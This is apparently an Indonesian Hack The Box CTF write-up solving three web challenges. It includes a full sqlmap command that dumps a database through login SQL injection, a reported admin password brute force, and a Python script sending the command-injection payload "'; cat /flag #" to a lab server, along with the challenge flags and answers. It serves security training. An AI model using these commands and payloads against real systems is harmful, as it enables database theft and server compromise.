





---
# Flag Command

### Deskripsi 
Mulailah "Quest Pelarian Dimensi" di mana Anda terbangun di labirin hutan misterius yang bukan berasal dari dunia ini. Jelajahi tupai bernyanyi, bidadari nakal, dan penyihir pemarah di labirin aneh yang mungkin membawa kejutan dari dunia lain. Akankah Anda menaklukkan labirin ajaib atau menemukan diri Anda tersesat dalam dimensi tantangan magis yang berbeda? Perjalanan terungkap dalam pelarian mistis ini!

### Analisis
Pada tantangan ini diarahkan untuk menjawab dengan benar beberapa pertanyaan dari logic code javascript yang sudah di sediakan

```JS
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
            .then((res) => res.json())
            .then(async (data) => {
                console.log(data)
                await displayLineInTerminal({ text: data.message });

                if(data.message.includes('Game over')) {
                    playerLost();
                    fetchingResponse = false;
                    return;
                }

                if(data.message.includes('HTB{')) {
                    playerWon();
                    fetchingResponse = false;

                    return;
                }

                if (currentCommand == 'HEAD NORTH') {
                    currentStep = '2';
                }
                else if (currentCommand == 'FOLLOW A MYSTERIOUS PATH') {
                    currentStep = '3'
                }
                else if (currentCommand == 'SET UP CAMP') {
                    currentStep = '4'
                }

                let lineBreak = document.createElement("br");


                beforeDiv.parentNode.insertBefore(lineBreak, beforeDiv);
                displayLineInTerminal({ text: '<span class="command">You have 4 options!</span>' })
                displayLinesInTerminal({ lines: availableOptions[currentStep] })
                fetchingResponse = false;
            });


    }
    else {
        displayLineInTerminal({ text: "You do realise its not a park where you can just play around and move around pick from options how are hard it is for you????" });
        fetchingResponse = false;
    }
```

Ada 4 pilihan jawaban yang benar untuk mendapatkan flag 




### Penyelesaian 


Jawaban dari pertanyaan di dalam Web yang benar ialah :
- HEAD NORTH
- FOLLOW A MYSTERIOUS PATH
- SET UP CAMP
- Blip-Blop, in a pickle with a hiccup! Shmiggity-shmack





---
# KORP Terminal 

### Deskripsi 
Faksi Anda harus menyusup ke terminal KORP™ dan mendapatkan akses ke informasi istimewa Legiun serta mencari tahu lebih banyak tentang penyelenggara Fray. Layar login terminal dilindungi oleh enkripsi dan protokol keamanan canggih.

### Analisis
Web yang berisi login form memiliki kerentanan SQL Injection di parameter username.

### Penyelesaian 
Melakukan automasi SQL Injection dengan sqlmap 
`sqlmap -r inject --dbms mysql --level 4 --risk 3 --threads 10 --ignore-code 401 --batch -D korp_terminal --dump`



Terlihat pada database korp_terminal tersebut Terdapat username admin tapi password ter-encrypt menggunakan md5, dari pilihan melakukan cracking hash menggunakan jhontheriper saya melakukan 
Brute force password admin dengan turbo intruder dan mendapat di password123 untuk credentialnya.



```
flag HTB {t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```


---
# TimeKORP

### Deskripsi 
Apakah Anda siap mengungkap misteri dan mengungkap kebenaran yang tersembunyi dalam domain digital KROP? Bergabunglah dengan tantangan ini dan buktikan kehebatan Anda di dunia keamanan siber. Ingat, waktu adalah uang, namun dalam kasus ini, imbalannya mungkin jauh lebih besar dari yang Anda bayangkan.

### Analisis


Pada saat melakukan code review  dari source code yang diberikan. pada file config, flag di copy ke directory / yang mana mungkin ada clue untuk melakukan attack vector **Command Injection**

### Penyelesaian

Code python untuk mengirimkan request command injection pada paramater format

```py
#! /usr/bin/env python

import requests

url = "http://83.136.253.226:50636/"


r = requests.get(
    url,
    params={
        "format": "'; cat /flag #"
    },
)

print(r.text)
```

